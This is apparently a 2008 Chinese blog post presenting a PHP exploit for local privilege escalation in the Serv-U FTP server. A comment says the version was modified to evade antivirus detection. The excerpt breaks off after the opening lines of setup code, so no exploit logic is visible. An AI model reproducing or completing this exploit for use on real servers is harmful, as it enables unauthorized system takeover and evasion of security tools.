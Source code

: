 ```yaml
---
categories:
- 服务器
date: "2008-01-16T00:00:00Z"
title: Serv-U All Version本地提升权限Exp10it Ver 1.5
url: /posts/20080116-178.html
---
```

<div class="codeText">
  <div class="codeHead">
    PHP代码
  </div>
  
  <ol class="dp-c" start="1">
    <li class="alt">
      <span><span><?PHP&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="comment">/**</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="comment">修改免杀版本&nbsp;BY：CiKer</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="comment">**/</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span><span class="comment">//</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="comment">//Codez&nbsp;begin</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span><span class="comment">//</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="comment">//判断magic_quotes_gpc的值</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span>&nbsp;&nbsp;</span>
    </li>
    <li class="">
      <span>set_time_limit(0);&nbsp;&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;&nbsp;</span>
    </li>
    <li class="">
      <span><span class="keyword">if</span><span>&nbsp;(get_magic_quotes_gpc())&nbsp;{&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="vars">$_GET</span><span>&nbsp;=&nbsp;stripslashes_array(</span><span class="vars">$_GET</span><span>);&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span>}&nbsp;&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;&nbsp;</span>
    </li>
    <li class="">
      <span>&nbsp;&nbsp;</span>